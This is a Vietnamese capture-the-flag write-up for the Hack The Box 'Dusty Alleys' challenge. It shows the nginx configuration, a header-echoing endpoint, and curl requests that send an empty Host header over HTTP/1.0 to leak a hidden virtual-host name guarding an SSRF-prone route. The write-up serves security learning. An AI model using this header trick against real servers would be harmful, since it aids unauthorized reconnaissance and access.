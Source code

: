 # CheatCodeHTB
## Dusty Alleys - HTTP 1.0 so stupid
### Solution

- Server config /alley và /think `listen 80 default_server;
        server_name alley.$SECRET_ALLEY;` nhưng chỉ có ` server_name guardian.$SECRET_ALLEY;` cho `/guardian`
=> Ta cần `$SECRET_ALLAY` để truy cập endpoint /guardian ~~nơi chứa SSRF~~
```config
server {
        listen 80 default_server;
        server_name alley.$SECRET_ALLEY;

    location / {
        root /var/www/html/;  
        index index.html;              
    }

        location /alley {
                        proxy_pass http://localhost:1337;
                        proxy_set_header Host $host;
                        proxy_set_header X-Real-IP $remote_addr;
                        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
                        proxy_set_header X-Forwarded-Proto $scheme;
        }

        location /think  { 
                        proxy_pass http://localhost:1337;
                        proxy_set_header Host $host;
                        proxy_set_header X-Real-IP $remote_addr;
                        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
                        proxy_set_header X-Forwarded-Proto $scheme;

                        }
}

server {
        listen 80;
                server_name guardian.$SECRET_ALLEY;

        location /guardian {
                        proxy_pass http://localhost:1337;
                        proxy_set_header Host $host; 
                        proxy_set_header X-Real-IP $remote_addr;
                        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
                        proxy_set_header X-Forwarded-Proto $scheme;
        }
}
```
- Endpoint `/think` trả về request header
```
router.get("/think", async (req, res) => {
  return res.json(req.headers);
});

\\Exam response
{
   "host":"94.237.48.147",
   "x-real-ip":"10.30.18.144",
   "x-forwarded-for":"10.30.18.144",
   "x-forwarded-for:"http",
   "connection":"close",
   "accept-language":"en-US,en;q=0.9",
   "upgrade-insecure-requests":"1",
   "user-agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36",
   "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
   "accept-encoding":"gzip, deflate, br",
   "if-none-match":"W/\"1ff-LedyLfO3NsGXjDLDeEoUwvsCLx8\""
}
```
- Ta có thể thấy `"x-real-ip", "x-forwarded-for" và "x-forwarded-for" không hề có trong request mà ta gửi. Có thể suy ra được các header này được Proxy thêm vào trong quá trình gửi request
-  Vậy `proxy_set_header Host $host` thì sao, ta có sẵn Host trong header nên /think trả về "host":"94.237.48.147". Vậy nếu ta không truyền "Host", hoặc Host rỗng thì sao? ~~thì Bad Reuqest :)))~~

```
curl -H "Host:" http://94.237.48.147:49291/think
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx</center>
</body>
</html>
```
### Giao thức HTTP 1.0
- Giao thức HTTP 1.0 không yêu cầu header "Host" trong request header
```
curl -H "Host:" --http1.0 http://94.237.48.147:49291/think
{"host":"alley.firstalleyontheleft.com","x-real-ip":"10.30.18.144","x-forwarded-for":"10.30.18.144","x-forwarded-proto":"http","connection":"close","user-agent":"curl/8.5.0","accept":"*/*"}(base)
```
- N'id win
